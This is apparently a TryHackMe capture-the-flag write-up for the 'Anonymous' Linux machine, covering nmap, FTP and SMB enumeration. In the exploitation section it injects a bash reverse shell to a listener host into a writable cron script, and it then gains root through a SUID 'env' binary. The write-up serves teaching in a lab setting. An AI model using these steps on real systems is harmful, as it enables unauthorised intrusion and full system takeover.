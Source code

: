 ```yaml
---
title: "Tryhackme Anonymous Write-up"
date: 2021-02-15 16.40 
categories: [Tryhackme, Linux]
tags: [thm ,ftp, suid, env]
author: LXD
image: /assets/img/posts/anonymous/anonymous.png
---
```


Hello, Today we are going to solve a machine named `Anonymous` which is linux based machine from [Tryhackme](https://tryhackme.com/). Let's the solution step by step.

### Reconnaissance

- Nmap scanning
- FTP enumeration
- SMB enumeration

### Exploitation

- Writing to a writeable ftp file 
- Getting reverse shell

## Privilege Escalation

- Finding SUID Binaries
- Abuse of env SUID bit

## Reconnaissance

### Nmap Scanning

As always let's start with nmap scanning as described above.

> sudo nmap -sC -sV -oA nmap/anonymous-open-ports 10.10.25.138

Once we ran nmap by given command, it will return us following output;

```bash
# nmap -sC -sV -oA nmap/anonymous-ports -v -Pn 10.10.25.138
Increasing send delay for 10.10.25.138 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.25.138
Host is up (0.077s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.17.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>        Flags: <unique><active>
|   ANONYMOUS<03>        Flags: <unique><active>
|   ANONYMOUS<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-10-22T14:13:41+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-22T14:13:41
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

### FTP Enumeration

According to the result of nmap, we have 4 open ports. FTP is running on port 21, SSH is running on port 22 and SMB is running on port 139,445.Regarding to the nmaps's output we can understand that FTP anonymous login is allowed. If we try to log in ftp server with anonymous and anonymous credentials, we'll get a successfull login. 

![FTP Login](/assets/img/posts/anonymous/ftp_login.png)

Once we login we can see that there is a directory called scripts and this directory has 3 different files. Here are the content of the directory.

`cleans.sh`
```bash
#!/bin/bash
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`removed_files.log`
```bash
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

`to_do.txt`
```bash
I really need to disable the anonymous login...it's really not safe
```

As we can see ,we do have writing and execution privileges.

### SMB Enumeration

We can use the smbclient tool to list shared folders in SMB. 

> smbclient -L \\\\10.10.25.138\\

After running the command we see that there is shared folder named `pics`. We can log in to the smb server with the use of null authentication in SMB. 

> smbclient \\\\10.10.25.138\\pics -U ''

When we log in to smb, we see that there are 2 dog pictures.

![Dog 1](/assets/img/posts/anonymous/corgo2.jpg)
![Dog 2](/assets/img/posts/anonymous/puppos.jpeg)

`Spoiler Alert: These pictures will not lead you anything useful ,just a rabbit hole.`

## Exploitation

Since there is no any other service back to gather information, our next process will be exploitation. Now, we've only cleans.sh which is a scheduled task on the machine.

### Writing to clean.sh file

It runs per 1 minute and programmed to `echo` this text ("Running cleanup script:  nothing to delete") into `removed_files.log` file. If we put our reverse shell into `clean.sh`, we can gain access to the system as a low privileged user. Our code will be like this;

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.9.17.122/1337 0>&1
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

### Getting Reverse Shell

![Clean bash file](/assets/img/posts/anonymous/ftp_clean.png)

We replace the clean.sh file with ours. Once clean.sh file runs again we'll get a shell.

![Getting Shell](/assets/img/posts/anonymous/shell.png)

## Privilege Escalation

Now, It's time to upgrade our privileges. `I checked that if there is an any command that we can run with sudo rights but there's nothing.` 

### Abuse of env SUID bit

![Linpeas](/assets/img/posts/anonymous/linpeas.png)

Hmm it's interesting ,let's confirm it existence with following command:

> find / -user root -perm -u=s 2>/dev/null

![PE Confirmation](/assets/img/posts/anonymous/PE_Confirmation)


Indeed ,there's a non-standard SUID BIT calling `env`.


We can exploit this SUID bit like this;

> env /bin/sh -p

![Becoming Root](/assets/img/posts/anonymous/root.png)

We escalate our privilege to root.

Thank you for your time ,Stay Tunned!

